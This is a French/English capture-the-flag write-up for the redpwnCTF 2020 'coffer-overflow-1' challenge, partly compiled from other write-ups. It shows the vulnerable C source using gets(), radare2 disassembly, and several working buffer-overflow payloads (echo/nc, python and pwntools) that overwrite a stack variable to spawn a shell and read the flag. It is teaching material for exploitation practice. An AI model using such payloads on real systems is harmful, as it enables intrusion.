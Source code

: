 # coffer-overflow-1

Author: [roerohan](https://github.com/roerohan)

avec des bouts d'autres WritesUp : https://ctftime.org/task/12109 

This is a simple buffer overflow challenge.

# Requirements

- Basic Buffer overflow.

# Source

- [coffer-overflow-1](./coffer-overflow-1).

```
The coffers keep getting stronger! You'll need to use the source, Luke.

nc 2020.redpwnc.tf 31255
```

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

# Exploitation

Check out [coffer-overflow-0](../coffer-overflow-0) for some details. You can checkout how buffer overflow works [here](https://github.com/csivitu/Incore-Sessions/blob/master/Buffer%20Overflow/Session-1.md).
<br />

Dans le source, on voit qu'il faut donner une valeur prédéfinie, `code == 0xcafebabe`. 

source: https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html 

Outre cette valeur prédéfinie, on voit que `name` se voit allouer 16 bytes. 
<br />
We see in the code snippet that `name` is alloted 16 bytes, and `code` is alloted 8 bytes (long, 64-bit). 

Pour déterminer la quantité de brol à ajouter devant , ce writeup (https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html) explique: 

```
From the disassembly of coffer-overflow-1, we can see that code is located at rbp - 0x8 and 
name is located at rbp - 0x20, meaning that we require 0x18 = 24 bytes of junk followed by 0xcafebabe as the input.
```
Concrètement, pour désassembler le binaire, Radare2 (https://www.megabeets.net/a-journey-into-radare-2-part-1/) (interface graphique : https://cutter.re/)
```
   $ r2 coffer-overflow-1
   [0x00400590]>
   
   [0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   entry.fini0
0x00400670    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400710    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    3 147          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init


   [0x00400590]> s main
   
   [0x00400590]> pdf

```
permet de voir que: 

![pic1](https://github.com/luckylex/screeshoot/blob/master/r2-1.png) 
![pic2](https://github.com/luckylex/screeshoot/blob/master/r2-2.png)


<br />
Also, the `gets()` function is used, which does not check the size of the input. So, we can simply write past the space alloted for `name` and write into `code`, the value `0xcafebabe` in little endian.
<br />

Les différents writesup proposent ces solutions: 

https://github.com/satoki/ctf_writeups/tree/master/redpwnCTF_2020/coffer-overflow-1 

```
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca"; cat) | nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt

```
https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html 

```
python -c "print('abcdabcdabcdabcdabcdabcd\xbe\xba\xfe\xca\x00\x00\x00\x00\ncat flag.txt\n')" > payload
nc 2020.redpwnc.tf 31255 < payload
```


We can use `pwntools` for the same. As discussed in `coffer-overflow-0`, this function will take up 32 bytes in the stack. The last 8 will store `code`, so we can write 24 random characters followed by `0xcafebabe` in little endian.

```python
import pwn

r = pwn.remote('2020.redpwnc.tf', 31255)

rep = b'a'*24 + pwn.p64(0xcafebabe)
print(rep)
r.sendline(rep)
r.interactive()
```

Run this program using `python`.

```bash
$ python cof1.py 
[+] Opening connection to 2020.redpwnc.tf on port 31255: Done
b'aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\x00\x00\x00\x00'
[*] Switching to interactive mode
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

The flag is:

```
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

